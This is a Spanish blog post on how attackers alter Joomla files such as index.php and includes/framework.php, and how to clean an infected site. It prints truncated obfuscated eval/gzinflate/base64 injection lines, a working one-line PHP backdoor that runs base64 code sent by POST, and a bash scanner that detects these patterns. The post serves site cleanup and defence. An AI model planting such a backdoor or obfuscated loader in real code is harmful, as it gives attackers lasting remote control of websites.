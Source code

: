 ```yaml
---
title: Como es atacado un sistema Joomla (2º Parte)
date: 2012-06-18
description: Descubre cómo los atacantes comprometen sitios Joomla, los métodos utilizados para modificar archivos críticos y cómo proteger tu sitio eliminando código malicioso y reforzando la seguridad.
author: Francisco Javier Félix Belmonte
image: 'como-es-atacado-un-joomla-2-parte'
category: 'blog'
tags: [joomla, ataques, cms]
isDraft: false
---
```


Si en la [1º parte](como-es-atacado-un-joomla) explicamos cuáles son los métodos de ataque de un **CMS** tipo Joomla o
Wordpress, ahora comentaremos de qué forma es modificado el Joomla y cómo podemos limpiarlo.

Normalmente, los ficheros que se modifican primero son `index.php`, pero en Joomla también son modificados:

```bash
/index.php
/includes/framework.php
/templates/xxxx/index.php
```

> Donde `xxxx` es el nombre de la plantilla que estamos usando.

Lo primero que tenemos que hacer es buscar en dichos ficheros, tanto al principio como al final, las siguientes
sintaxis:

```php
eval(gzinflate(base64_decode('HJ3HbuvIFkU/5zXAAXMaMkcxi2nywJxz5te33IML+BqwJFbV2XstWZKLM+n/qd5mLPtkL/5Jk60gsP/nRT.......akxUhgBILEQ1AACIJo8Z9///79938=')));
eval(@gzinflate(base64_decode('HJ3HbuvIFkU/5zXAAXMaMkcxi2nywJxz5te33IML+BqwJFbV2XstWZKLM+n/qd5mLPtkL/5Jk60gsP/nRT.......akxUhgBILEQ1AACIJo8Z9///79938=')));
preg_replace("/.+/e","\x65\x76\x61\x6C\x28\x67\x7A\x69\x6E\x66\x6C\x61\x74\x65\x28......hPLidw/nyu/lEf6Xcg24Mhg8Bqov4C'\x29\x29\x29\x3B",".");
```

Estas líneas han sido cortadas por los puntos suspensivos, normalmente tienen más de 1200 caracteres, pudiendo llegar a
24.000, lo que nos hace sospechar de que algo raro pasa.
En una primera limpieza, borraríamos las líneas o sustituiríamos los ficheros modificados por los originales o la última
copia no alterada.

Luego buscaríamos estos patrones en el resto de ficheros y también podemos buscar por fecha de modificación.

Hay que estar atento a los ficheros modificados, porque también pueden incluir una puerta trasera. Y aunque limpiemos
los ficheros o activemos sistemas de seguridad como [**suhosin**](https://www.hardened-php.net/suhosin/index.html) o [*
*mod_security**](https://www.modsecurity.org/), hay que buscar este código y eliminarlo.
(*suhosin permite limitar el uso de `eval`, pero se necesitan conocimientos porque se podría dejar de funcionar ciertas
partes de nuestra web.*)

```php
<?php if ($_POST["php"]){eval(base64_decode($_POST["php"]));exit;} ?>
```

Este fragmento, con un simple `POST`, permite al atacante volver a infectarnos y es difícil de detectar en los registros
del **Apache**.

Como ejemplo, he creado un pequeño script en **bash** para buscar ficheros infectados. Aunque pueden aparecer algunos
falsos positivos, siempre es recomendable revisarlos manualmente:

```bash
#!/bin/bash

malware() {
    find -type f -iname *.$1 | while read file
    do
        a=$(awk 'length($0) > 1020' "$file" | grep -e "base64_decode\|preg_replace")
        if [ "$a" ]; then
            echo "$file"
        fi
        b=$(grep "\$_POST" "$file" | grep -i base64_decode | grep -i eval)
        if [ "$b" ]; then
            echo "$file"
        fi
    done
}

malware phtml
malware php
malware phps
malware php5
```
